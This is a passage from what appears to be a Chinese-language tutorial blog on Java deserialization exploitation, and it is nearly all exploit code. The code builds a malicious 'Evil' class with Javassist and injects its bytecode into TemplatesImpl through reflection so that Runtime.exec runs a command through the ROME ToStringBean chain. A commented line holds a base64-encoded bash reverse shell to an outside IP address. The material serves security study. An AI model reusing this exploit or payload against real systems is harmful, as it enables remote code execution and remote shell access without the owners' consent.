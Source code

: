 ```
            ctClass.defrost();  
            return bytes;  
        } catch (Exception e) {  
            e.printStackTrace();  
            return new byte[]{};  
        }  
    }  
  
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception {  
        Class clazz = object.getClass();  
        Field field = clazz.getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(object,value);  
    }  
}
```

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/TemplatesImplEXP.png)

构造下一步的 EXP

JAVA

```
public class ToStringBeanEXP {  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = new TemplatesImpl();  
        setFieldValue(templates,"_name","Drunkbaby");  
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());  
        Class c = templates.getClass();  
        Field byteCodesField = c.getDeclaredField("_bytecodes");  
        byteCodesField.setAccessible(true);  
        byte[] evil = getTemplatesImpl("Calc");  
        byte[][] codes = {evil};  
        byteCodesField.set(templates,codes);  
//        templates.newTransformer();  
 ToStringBean toStringBean = new ToStringBean(c,templates);  
        toStringBean.toString();  
  
    }  
  
    public static byte[] getTemplatesImpl(String cmd) {  
        try {  
            ClassPool pool = ClassPool.getDefault();  
            CtClass ctClass = pool.makeClass("Evil");  
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
            ctClass.setSuperclass(superClass);  
            CtConstructor constructor = ctClass.makeClassInitializer();  
            constructor.setBody(" try {\n" +  
                    " Runtime.getRuntime().exec(\"" + cmd +  
                    "\");\n" +  
                    " } catch (Exception ignored) {\n" +  
                    " }");  
            // "new String[]{\"/bin/bash\", \"-c\", \"{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMC4xMS4yMzEvOTk5MCAwPiYx}|{base64,-d}|{bash,-i}\"}"  
 byte[] bytes = ctClass.toBytecode();  
            ctClass.defrost();  
            return bytes;  
        } catch (Exception e) {  
            e.printStackTrace();  
            return new byte[]{};  
        }  
```